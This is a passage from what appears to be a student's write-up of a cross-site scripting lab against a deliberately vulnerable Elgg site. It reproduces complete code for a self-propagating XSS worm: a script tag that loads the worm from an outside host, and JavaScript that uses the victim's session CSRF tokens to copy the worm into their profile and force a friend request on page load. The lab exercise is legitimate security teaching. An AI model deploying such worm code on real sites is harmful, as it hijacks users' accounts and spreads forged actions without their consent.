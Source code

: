 ### 6.1 Link Approach

We implemented the attack by putting a malicious Javascript file into the "*www.example.com/xss/task06/xss_worm.js*". 
After that, we imported the malicious JS file from the "**About Me**" by the codes below:

```html
<script type="text/javascript" 
    src="http://www.example.com/xss/task06/xss_worm.js">
</script>
```

The codes in the "*xss_worm.js*" file is shown in the codes section below. There are two functions: `infectToProfile` and `addSamyAsFriend`. In the first, it will modify the value of the "**About Me**" to make it same with the Samy's one. As to the second, it make the victim add Samy as friend. 

```javascript
// Infect To Profile Function 
function infectToProfile(){
    let sendurl = "http://www.xsslabelgg.com/action/profile/edit";
    let description = '<script type=text/javascript '
        + 'src="http://www.example.com/xss/task06/xss_worm.js">'
        + '</' + 'script>'; // To avoid the end tag issue
    let content = '&name=' + elgg.session.user.name
        + '&guid=' + elgg.session.user.guid
        + '&__elgg_ts=' + elgg.security.token.__elgg_ts //Elgg Timestamp
        + '&__elgg_token=' + elgg.security.token.__elgg_token //Elgg Token
        + '&description=' + description + '&accesslevel[description]=2'; 
    let Ajax=new XMLHttpRequest();
    Ajax.open("POST",sendurl,true);
    Ajax.setRequestHeader("Host","www.xsslabelgg.com");
    Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    Ajax.send(content);
}
// Add Samy As Friend 
function addSamyAsFriend () {
    let sendurl = 'http://www.xsslabelgg.com/action/friends/add?friend=47'
        +'&__elgg_ts=' + elgg.security.token.__elgg_ts //Elgg timestamp
        +'&__elgg_token=' + elgg.security.token.__elgg_token; //Elgg Token
    let Ajax = new XMLHttpRequest();
    Ajax.open("GET",sendurl,true);
    Ajax.setRequestHeader("Host","www.xsslabelgg.com");
    Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
    Ajax.send();
}

window.onload = function () {
    // Make sure it will not changed Samy's profile
    // And ensure Samy will not add himself as friend 
    if(elgg.session.user.guid!=47){ 
        infectToProfile();
        addSamyAsFriend();
    }
}

```
